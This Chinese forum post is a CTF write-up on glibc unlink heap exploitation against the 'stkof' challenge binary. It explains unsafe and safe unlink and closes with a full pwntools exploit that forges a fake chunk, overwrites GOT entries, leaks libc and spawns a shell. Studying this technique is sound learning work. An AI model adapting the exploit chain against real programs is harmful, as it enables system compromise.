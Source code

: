 [font=黑体][b]基础知识[/b][/font]
[font=黑体]首先就是unlink的认识了，在libc版本中曾经出现过安全机制不强的版本，其大致逻辑如下,其中fd，bk分别是forward，backward的缩写，我学的时候老分叉，但是知道原本单词是啥就没事了，所以我个人建议也是缩写尽量知道原译比较好。[/font];www
[mw_shl_code=c,true]void unlink(ptr * p){
    FD =  p->fd;
    BK  = p->bk;
    FD->bk = p->bk;
    BK->fd = p->fd;
}[/mw_shl_code]
而用图来描述呢，大致就是如下图（由于我想自己更加深理解，所以没用网图，各位可能看着吃力点，这个红线就是unlink时连接的）
[attachimg]2550013[/attachimg]
[attachimg]2550014[/attachimg]
至于为什么要有unlink以及unlink的时机嘛，我也时一知半解，因为我刚学完fastbin，一些largebin、smallbin、tcache等机制我还没接触，所以不是很清楚，就本题我自己查阅的资料加上自己的见解来说，
unlink就是为了防止堆内存空间的碎块过多，而其中unlink也并不就是说真把上面那个p块拿走了，而是说他合并了，这点我最开始很不理解，就是ctfwiki上面讲的拿出来，我寻思拿出来了再怎么利用呢，还有ctfwiki上面对于unlink的时机我觉得没则么说清楚，我自己上网查阅资料得出再free掉一个块的时候会首先查看自身的prev_size位是否为0，如果为0的话那么就说明上一块时空闲的，这时如果free掉当前快的话，那么就会对你自身free块的上一个空闲块进行unlink，然后这两个块就顺势合并，所以说并没有真的把哪一块弄下来了，当然我只知道free函数调用的时候会判断unlink，其他有没有用这个操作我就不太了解了（这也留作之后的学习罢）。以下我分享一下free时调用unlink函数的源码的一部分，大家有兴趣看堆的源码我推荐一个师傅的文章，那可真叫一个细[quote]glibc中malloc源码分析
[url=https://www.52pojie.cn/thread-1581911-1-1.html]https://www.52pojie.cn/thread-1581911-1-1.html[/url]
(出处: 吾爱破解论坛)[/quote]
[mw_shl_code=asm,true]        if (!prev_inuse(p)) {            prevsize = p->prev_size;
            size += prevsize;
            p = chunk_at_offset(p, -((long ) prevsize));
            unlink(av, p, bck, fwd);
        }[/mw_shl_code]
而对于unlink的利用也很容易理解，既然我要unlink这个p块，那我在他的fd以及bk上填上我自身想填的地址值就行阿，涉及到这里，我就还是画图（图画的不好见谅）
[attachimg]2550022[/attachimg]
知道以上俗称unsafe unlink之后，再了解了解目前更为常见的safe unlink罢（悲），根据其名字就知道这个肯定有安全点的意思了，看他的源码会发现他在unlink之前检查了free块的prev_size与前面块的size位是否相等，之后还是看代码分析
[mw_shl_code=c,true]#define unlink(AV, P, BK, FD) { 
//判断chunk p的大小，是否与下一个chunk 的prev_size相等
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) 
      malloc_printerr ("corrupted size vs. prev_size"); 
    //让FD指向p的下一个chunk，BK指向p的上一个chunk
    FD = P->fd; 
    BK = P->bk; 
    //以上是，chunk的大小在small bin范围内的断链操作
    //以下是，large bin，的断链操作，首先判断FD的bk，与BK的fd是否同时指向p
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) 
      malloc_printerr ("corrupted double-linked list"); 
    else { 
        //首先进行初步断链，使FD的bk指向BK的fd，BK的fd指向FD，只是堆fd,bk的断链操作
        FD->bk = BK; 
        BK->fd = FD; 
        //以下使堆bk_nextsize,fd_nextsize的断链操作（large bin有两个双向链表，fd，bk用来
        //进行FIFO操作，bk_nextsize,fd_nextsize是根据堆块的大小进行排序的链表）
        //以下第一个if判断p的chunk是否在small范围内
        if (!in_smallbin_range (chunksize_nomask (P)) 
            && __builtin_expect (P->fd_nextsize != NULL, 0)) { 
            //判断chunk p的下一个chunk的上一个节点，以及上一个chunk的下一个节点是不是p
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0) 
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0)) 
          malloc_printerr ("corrupted double-linked list (not small)"); 
          //以下是luoarge bin的断链操作，首先判断chunk p的下下一个chunk的fd_nextsize是否为空
            if (FD->fd_nextsize == NULL) { 
            //p的下下一个chunk的fd_nextsize为空
                if (P->fd_nextsize == P) 
                //判断是否只有一个chunk p,是则如下
                  FD->fd_nextsize = FD->bk_nextsize = FD; 
                else { 
                //不是以下操作，四个指针，正常的双向链表的断链操作
                    FD->fd_nextsize = P->fd_nextsize; 
                    FD->bk_nextsize = P->bk_nextsize; 
                    P->fd_nextsize->bk_nextsize = FD; 
                    P->bk_nextsize->fd_nextsize = FD; 
                  } 
              } else { 
              //p的下下一个chunk的fd_nextsize不为空，直接断链
                P->fd_nextsize->bk_nextsize = P->bk_nextsize; 
                P->bk_nextsize->fd_nextsize = P->fd_nextsize; 
              } 
          } 
      } 
}[/mw_shl_code]
也就是说我们在unsafe unlink的构造不管用了，在以前的unlink中我们可以这样构造，就比如unlink下一块的Q中，如果我们将Q中的bk项换位我们任意想给的项的话，那我们就会被这项给难住，因为我们target_addr !=p
[mw_shl_code=asm,true]if (__builtin_expect (FD->bk != P || BK->fd != P, 0))malloc_printerr ("corrupted double-linked list"); [/mw_shl_code]
所以我们就想怎么绕过呢，最开始我也硬是没反应过来时怎么绕的，之后发现是自己对指针的理解不够透彻，以下是我的个人理解，也就是当我们unlink的时候，Q->bk指向p的必要条件是Q->bk这个指针的值必须等于p这个指针（也就是P chunk块的块指针）的值，那我们如何在内存中找个伪造的相同的值呢，我只能说很少，几乎不可能存在，这时不如我们运用辩证法中矛盾的统一性与对立性在事物发展过程中起作用的原理（考研的同学记得回答一下这个原理的方法论）{:301_1008:}，此时我们就想到找同样的p值那不如我们就找这个p指针算了，而此时我们的target_addr就要保证target_addr = p，而在正常情况下，我们Q的bk指针只是内容与P指针一样，但是我们绕过就是利用的恰恰就是将bk改为p，接下来我们进入正题来讨论此题，这样更有助于我们来学习。
[b]题目分析[/b]
依然是照旧安全性检查
[attachimg]2550024[/attachimg]
发现got表可写，canary、栈不可执行（因为直接是学习用的简单堆题，直接掠过:keai），没开pie，狂喜，哥们最喜欢不乱动的了
执行下看看，这题是真离谱，给个提示行不行，自己看是真的累，第二张图就是执行过程大伙看了可以评价评价那几个数字纯我手打
[attachimg]2550026[/attachimg][attachimg]2550027[/attachimg]

程序大致逻辑就是1分配你自己决定大小的块，2就是编辑块里面的数据，3是啥功能都没实现，我最开始以为是show，4是删除块，分别看每个函数发现allocation中由于没开pie，所以bss段时固定的，而其中也发现我们分配chunk后，有一个bss段上的数据段来保存这个块地址，注意这个块地址是chunk中fd那片区域的地址，而不是整个块的首地址，而这个数组是从下标1开始保存的
[attachimg]2550029[/attachimg]
之后查看edit函数，发现其中逻辑是我们先录入一个我们即将输入的大小，然后再输入字符串，并且他这也没检查，很明显的漏洞了。
[attachimg]2550030[/attachimg]
之后阿delete的函数很正常就不必展示了，我们首先分配几个块来看看内存布局，再ida中可看到bss段地址
[attachimg]2550032[/attachimg][attachimg]2550033[/attachimg][attachimg]2550034[/attachimg]

此时发现bss段上都存着chunk中fd的地址，而这个bss段上又是可执行的，并且没开pie，所以说我们固定的知道chunk的地址，这样我们就立即采用unlink来进行漏洞利用，上图可以看到每个我们分配的堆地址都在上面了，大家注意我这个bss地址与ida中不一样是因为我ida没在虚拟机上面开，因为我linux的ida不知道出什么问题突然打不开了，我们再来看看此时的堆分布
[attachimg]2550046[/attachimg]
此时大家肯定有很多疑问，这楼主再说甚么啊，这写的都是些上面玩意，别慌大伙，我一个一个讲，首先我为什么要最开始分配一个小块呢，因为通过调试你会得知在分配第一个块后，他会立即因为没有关闭setbuf，而printf函数就会默认创建一个巨大的块来作为缓冲区，存放你曾经输入的字符，所以我在代码注释上面也注释了第一块其实没什么用，但是为什么之后的块我也一并分配0x80呢（十进制128），因为fastbin大小限制在那里了，80的块刚好限制了当他free的时候不会将他放入fastbin，而是丢入unsortbin，然后才能unlink，这也是因为fastbin中inuse是一直为1的。
之后就开始进行漏洞利用，此时我们已经分配了5个块，此时我们利用edit函数讲块2溢出到块3，使得其inuse位为0，并且适当调节prev_size，使得以假乱真
[attachimg]2550054[/attachimg]
具体的代码中注释也说的很清楚了，至于我们发送的其他字节，我将画图来讲述
也就是说我们在0x91的块中构造了一个fake_chunk，此时我们的块3就会将其当作一个真正的空闲块进行unlink，此时我们还要精心布局其中的fd以及bk，要保证fd+0x18,以及bk+0x10要等于p，而p在bss段上的地址已经是固定的了，所以我们很容易就能算出来fd与bk应填入的地址（也就是p-0x18,p-0x10），而这个构造最终会导致的结果就是p = p - 0x18,通过调试可以直观的看出来
[attachimg]2550056[/attachimg]
接下来就简单了，我们可以通过edit来改写块2的内容，所以此时我们修改S数组中第0个块和第1个块的地址为free以及puts的got表地址，当我们修改块0和块1时就相当于修改了got表的内容，于是我们先将块0的got表修改为puts的plt地址，这时当我们free一个块时，他就会执行puts而不是free，我们此时free块1,此时实际执行的是puts（puts_got）,这样就造成了puts的地址泄露，之后我们再将free改为system地址，然后修改一个块内容为‘/bin/sh’之后free掉即可获取shell啦。
[attachimg]2550057[/attachimg]
成功！
[b]总结[/b]
写这个题的时候大部分是在查别的资料，这个题本来漏洞利用很简单，但是要搞清楚利用的原理还是需要多思考思考的，还有一处最开始也给我懵了，由于我没改libc版本，导致我unlink一直不成功，之后才发现是因为tcache版本是在glibc-2.26出现的，而最开始我用的本机的版本2.33，之后了解后改为本题的libc才成公，也就是libc-2.23，还有就是这kali可能真不适合pwn了，我换了个版本gdb的指令就一大部分用不了了，有师傅也建议我用ubuntu。
之后附上exp
[mw_shl_code=python,true]from pwn import *
io = process('./stkof')
context.log_level = 'info'
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')
free_got = elf.got['free']
puts_got = elf.got['puts']
free_plt = elf.plt['free']
puts_plt = elf.plt['puts']
bss_addr = 0x602100
chunk_addr = 0x602140

def add(size):                  #添加块函数
    io.recvuntil('OK\n')
    io.sendline('1')
    io.sendline(str(size))


def edit(num,size,payload):     #其中num为下标，size为想要修改的字数，payload即为揣测
    io.recvuntil('OK\n')
    io.sendline('2')
    io.sendline(str(num))
    io.sendline(str(size))
    io.send(payload)

def delet(num):
    io.recvuntil('OK\n')
    io.sendline('3')
    io.sendline(str(num))

io.sendline('1')
io.sendline('24')               #由于第一个块后衔接printf的buf所以对本题利用价值不大
add(128)                        #块A，下标为2
add(128)                        #块B，3
add(128)                        #块C，4
add(128)                        #块D，5

#unlink

#修改B块的prev_inuse位为0
#unlink操作：
#   FD = this->fd
#   BK = this->bk
#   FD->bk = this->bk
#   BK->fd = this->fd

aim = chunk_addr + 0x10         #下标为0,1不用

pl1 = p64(0)+ p64(0x81) + p64(aim-0x18) + p64(aim-0x10) + b'a'*0x60 + p64(0x80) + b'\x90'         #此时发送0x89个字节，刚好覆盖块B的prev_inuse 位以及大小
edit(2,len(pl1),pl1)                 #修改块A,此时将B块的prev_size与size位均修改为0x90

#此时块B认为A块为空闲块，当freeB块时将会对其进行合并，也就是对块A进行unlink
delet(3)

#此时可以修改bss段上的内容了
pl2 = b'a'*8 + p64(free_got) + p64(puts_got)    #此时修改s[0]s[1]分别为free和puts的got表地址

edit(2,len(pl2),pl2)

#然后修改块0的内容，也就是修改了free中got的内容为puts_plt，这样当我们free时就掉用的时puts
pl3 = p64(puts_plt)
edit(0,len(pl3),pl3)        #此时的效果即为puts(puts_got)
delet(1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
io.success('puts_addr==>'+hex(puts_addr))

puts_libc = libc.sym['puts']
system_libc = libc.sym['system']
libc_base = puts_addr - puts_libc
system_addr = libc_base + system_libc

io.success('libc_base==>'+hex(libc_base))
io.success('system_address==>'+ hex(system_addr))



#此时再修改块0,使得块0的free_got指向system地址其指向system
pl4 =p64(system_addr)
edit(0,len(pl4),pl4)

#最后填充块2的值，使得其字符串为/bin/sh,执行free_hook
pl5 = '/bin/sh' + '\x00'
edit(2,len(pl5),pl5)

delet(2)
io.interactive()
[/mw_shl_code]
